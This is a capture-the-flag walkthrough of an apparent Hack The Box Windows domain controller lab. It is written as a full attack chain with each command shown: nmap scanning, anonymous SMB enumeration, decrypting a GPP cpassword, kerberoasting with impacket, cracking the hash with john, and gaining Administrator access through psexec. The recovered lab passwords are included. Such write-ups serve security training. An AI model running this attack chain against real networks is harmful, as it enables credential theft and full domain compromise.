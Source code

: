 #Pwned #Windows #Updated #Kerberoast

```IP
10.10.10.100
```
# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 10.10.10.100 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-12-22 09:01:28Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49166/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49173/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```
## SMB
After finding SMB with nmap, we will use netexec tool in order to enumerate the service:
```Bash
nxc smb 10.10.10.100 -u '' -p '' --shares
```
```Bash
smbclient //10.10.10.100/Replication
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222100646.png?raw=true)
Since it does not have authentication requirements enabled, we are able to enumerate the shares. Replication share inmediately stands out.

Iside it, in the `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups` directory it is possible to find a Groups.xml file that seems to contain credentials for SVC_TGS account as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222100923.png?raw=true)

# Exploitation
If we google `groups.xml cpassword decrypt` we will get some github pages for decrypting the password like:
https://github.com/t0thkr1s/gpp-decrypt
The command for this particular exploit would be:
```Bash
python gpp-decrypt.py -f ../../files/Groups.xml
```
And voilà!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222102733.png?raw=true)

Our password is:
```
GPPstillStandingStrong2k18
```
We can now enumerate other users:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222102912.png?raw=true)

Let's try some AD attack methods. As Rep Roasting attack doesn't seem to work:
```Bash
impacket-GetNPUsers -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222103324.png?raw=true)

But kerberoast does!
```Bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222103349.png?raw=true)

It retrieves an Administrator hash. Let's try cracking it with john:
```Bash
john --wordlist=/usr/share/wordlists/rockyou.txt files/administrator.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222103639.png?raw=true)

```
Ticketmaster1968
```
Now we can goin with PSExec:
```Bash
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
```
And we get access as Administrator right away. The final step is, as always, to retrieve the flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222104100.png?raw=true)

We have successfully pwned the machine!